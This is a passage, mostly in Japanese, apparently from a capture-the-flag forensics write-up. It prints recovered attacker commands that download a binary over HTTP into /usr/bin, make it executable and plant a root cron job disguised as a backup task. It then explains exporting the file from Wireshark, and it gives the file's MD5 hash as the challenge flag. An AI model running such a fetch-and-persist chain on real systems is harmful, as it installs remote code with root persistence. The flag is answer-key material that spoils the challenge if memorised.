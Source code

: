 secret_decoder.bin というのを http でダウンロードし、ll-connect.bin という名前で保存しています。

<pre>
sudo wget -O /usr/bin/ll-connect.bin http://192.168.100.105/secret_decoder.bin
--2021-08-22 17:55:35--  http://192.168.100.105/secret_decoder.bin
Connecting to 192.168.100.105:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: '/usr/bin/ll-connect.bin'

sudo chmod 755 /usr/bin/ll-connect.bin
sudo /bin/bash -c "echo '*/5 * * * * root /usr/bin/ll-connect.bin' > /etc/cron.d/da-ll-backup-job"

cat /etc/cron.d/da-ll-backup-job
*/5 * * * * root /usr/bin/ll-connect.bin

</pre>

Wiresharkから、http通信の中のファイルをexportします。Content-Type: application/octet-stream のやつを探すと見つかりやすいです。

<br>

<pre>
$ md5sum secret_decoder.bin
42e419a6391ca79dc44d7dcef1efc83b  secret_decoder.bin
</pre>

<br>

Flag: `flag{42e419a6391ca79dc44d7dcef1efc83b}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
